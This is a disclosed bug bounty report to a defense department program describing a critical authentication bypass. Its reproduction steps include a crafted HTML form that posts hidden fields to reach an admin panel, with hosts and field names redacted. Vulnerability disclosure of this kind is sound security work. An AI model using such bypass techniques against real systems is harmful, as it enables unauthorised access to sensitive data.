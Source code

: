 # Administration Authentication Bypass on https://█████

## Report Details
- **Report ID**: 1146600
- **URL**: https://hackerone.com/reports/1146600
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2021-04-02T23:46:59.334Z
- **Disclosed**: 2021-04-20T19:34:47.351Z

## Reporter
- **Username**: fiveguyslover
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Hi there
I found a way to connect to an administration space on your website https://██████████

#how to reproduce ?

1) - go to this link : https://███/██████████
2) - create a html file with : 
```html
<form action="https://████████/██████████" method="post">
    <input type="hidden" name="█████" value="">
    <input type="hidden" name="█████" value="1">
    <input type="submit">
</form>
```
3) - launch the file, click on the button and return to the page https://███████/█████
4) - refresh the page and you have access to the administration

POC : 

██████████

if you need more information, contact me

best regards,
fiveguyslover

## Impact

access to sensitive data and the ability to modify information.

## System Host(s)
█████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
1) - go to this link : https://█████/███████
2) - create a html file with : 
```html
<form action="https://█████/███" method="post">
    <input type="hidden" name="███" value="">
    <input type="hidden" name="████" value="1">
    <input type="submit">
</form>
```
3) - launch the file, click on the button and return to the page https://██████/█████
4) - refresh the page and you have access to the administration

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
